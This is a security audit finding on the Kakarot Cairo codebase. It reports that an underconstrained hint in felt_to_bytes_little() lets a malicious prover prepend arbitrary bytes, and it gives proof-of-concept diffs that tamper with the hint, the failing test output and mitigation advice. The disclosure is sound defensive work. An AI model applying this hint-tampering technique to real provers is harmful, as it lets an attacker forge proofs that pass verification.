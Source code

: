 ## [L-01] felt_to_bytes_little() underconstrained leading to appending of arbitrary values to the result

*Affected code*: [link](https://github.com/kkrt-labs/kakarot/blob/038b3a3fa66cd1b8959665fed3e2eb7934e146b1/src/utils/bytes.cairo#L46-L138)

`felt_to_bytes_little()` uses a hint to get the last 8 digits of a felt to store as a byte. The hint might be arbitrarily changed by a malicious prover, assigning the byte value as they see fit (within bounds). This can be repeated indefinitely as there are no length checks for the resulting array inside the function, allowing the prover to insert arbitrary payloads at the start of the returned array (or at its end in big-endian variants of the function that call `felt_to_bytes_little()` as a subroutine).

A limitation on exploits taking advantage of this vulnerability is the [loop exit condition](https://github.com/kkrt-labs/kakarot/blob/038b3a3fa66cd1b8959665fed3e2eb7934e146b1/src/utils/bytes.cairo#L80), as just inserting arbitrary values different from the expected ones without any "padding" values will almost never result in `value` becoming 0 (an example of this is shown in the PoC). The reason for this is that for every loop iteration, if the value of `byte` differs from `value`, a following [recomputation of `value`](https://github.com/kkrt-labs/kakarot/blob/038b3a3fa66cd1b8959665fed3e2eb7934e146b1/src/utils/bytes.cairo#L74) for the next iteration will result in it containing a big felt, the result of field division. Therefore an attacker has to insert a "pad" of subsequent `value % 256` bytes to make the function terminate. However, it is worth noting that the length of this pad is limited to 32 (`value` is obviously always bound by `PRIME` even after the prover's tampering).

This issue is only partially mitigated by the changes introduced in [PR#1317](https://github.com/kkrt-labs/kakarot/pull/1317). The patch on `bytes.cairo` introduces a check that asserts whether the generated `byte_length` is the smallest possible for a given value. `byte_length`, however, is not constrained, making dereferences like [these](https://github.com/kkrt-labs/kakarot/blob/038b3a3fa66cd1b8959665fed3e2eb7934e146b1/src/utils/bytes.cairo#L98) take values from the bytecode. That means an attacker might manipulate `lower_bound` and `upper_bound` to make the introduced check pass for their payload, with trial and error or some other heuristic. It is worthy of note that different (and somewhat unpredictable) pad lengths are required depending on the original value and the length of the payload.

## Proof of Concept
Test run:
```diff
diff --git a/tests/src/utils/test_bytes.py b/tests/src/utils/test_bytes.py
index 32b8f86..3f683c8 100644
--- a/tests/src/utils/test_bytes.py
+++ b/tests/src/utils/test_bytes.py
@@ -74,8 +74,8 @@ class TestBytes:
             ):
                 cairo_run("test__felt_to_bytes_little", n=n)
 
-    class TestFeltToBytes:
-        @given(n=integers(min_value=0, max_value=2**248 - 1))
+    class TestFeltToBytes_POC:
+        @given(n=integers(min_value=0xFFFFFFFF, max_value=0xFFFFFFFF))
         def test_should_return_bytes(self, cairo_run, n):
             output = cairo_run("test__felt_to_bytes", n=n)
             res = bytes(output)
```

Codebase changes:
```diff
diff --git a/src/utils/bytes.cairo b/src/utils/bytes.cairo
index 87d1b2a..66751da 100644
--- a/src/utils/bytes.cairo
+++ b/src/utils/bytes.cairo
@@ -64,7 +64,34 @@ func felt_to_bytes_little{range_check_ptr}(dst: felt*, value: felt) -> felt {
     let bound = base;
 
     %{
-        memory[ids.output] = res = (int(ids.value) % PRIME) % ids.base
+        if ids.bytes_len == 0:
+            memory[ids.output] = res = 0x21
+        elif ids.bytes_len == 1:
+            memory[ids.output] = res = 0x65
+        elif ids.bytes_len == 2:
+            memory[ids.output] = res = 0x66
+        elif ids.bytes_len == 3:
+            memory[ids.output] = res = 0x61
+        elif ids.bytes_len == 4:
+            memory[ids.output] = res = 0x73
+        elif ids.bytes_len == 5:
+            memory[ids.output] = res = 0x6e
+        elif ids.bytes_len == 6:
+            memory[ids.output] = res = 0x75
+        elif ids.bytes_len == 7:
+            memory[ids.output] = res = 0x20
+        elif ids.bytes_len == 8:
+            memory[ids.output] = res = 0x65
+        elif ids.bytes_len == 9:
+            memory[ids.output] = res = 0x64
+        elif ids.bytes_len == 10:
+            memory[ids.output] = res = 0x6f
+        elif ids.bytes_len == 11:
+            memory[ids.output] = res = 0x63
+        elif ids.bytes_len < 22:
+            memory[ids.output] = res = 0x20
+        else:
+            memory[ids.output] = res = ids.value % ids.base
         assert res < ids.bound, f'split_int(): Limb {res} is out of range.'
     %}
     let byte = [output];
```

Result:
```
___________________ TestBytes.TestFeltToBytes_POC.test_should_return_bytes ___________________

self = <test_bytes.TestBytes.TestFeltToBytes_POC object at 0xffff178a7640>
cairo_run = <function cairo_run.<locals>._factory at 0xffff17b30790>

    @given(n=integers(min_value=0xFFFFFFFF, max_value=0xFFFFFFFF))
>   def test_should_return_bytes(self, cairo_run, n):

tests/src/utils/test_bytes.py:79:
_ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _

self = <test_bytes.TestBytes.TestFeltToBytes_POC object at 0xffff178a7640>
cairo_run = <function cairo_run.<locals>._factory at 0xffff17b30790>, n = 4294967295

    @given(n=integers(min_value=0xFFFFFFFF, max_value=0xFFFFFFFF))
    def test_should_return_bytes(self, cairo_run, n):
        output = cairo_run("test__felt_to_bytes", n=n)
        res = bytes(output)
>       assert bytes.fromhex(f"{n:x}".rjust(len(res) * 2, "0")) == res
E       AssertionError: assert b'\x00\x00 (...) \x00\xff\xff\xff\xff' ==
b'\x01\x01\x01\x01\x01\x01\x01\x03##%=\x9dEK%\xcd\x9a-p\xdd\xe07\xccU\x98w\xcc\xb7B\x00\x00          code unsafe!'
E
E         At index 0 diff: b'\x00' != b'\x01'
E
E         Full diff:
E         - (b'\x01\x01\x01\x01\x01\x01\x01\x03##%=\x9dEK%\xcd\x9a-p\xdd\xe07\xccU\x98w\xcc'
E         -  b'\xb7B\x00\x00          code unsafe!')
E         + (b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
E         +  b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
E         +  b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
E         +  b'\x00\x00\xff\xff\xff\xff')
E       Falsifying example: test_should_return_bytes(
E           self=<test_bytes.TestBytes.TestFeltToBytes_POC object at 0xffff178a7640>,
E           cairo_run=_factory,
E           n=4294967295,
E       )

tests/src/utils/test_bytes.py:82: AssertionError
============================== 1 failed, 41 deselected in 1.12s ==============================
```

This would be valid in a production environment as there are no verifier errors.

## Recommended Mitigation Steps
Place constraints on `byte_len` at the end of the function and/or check whether the value of `value` in a given iteration is strictly smaller than in the previous one.
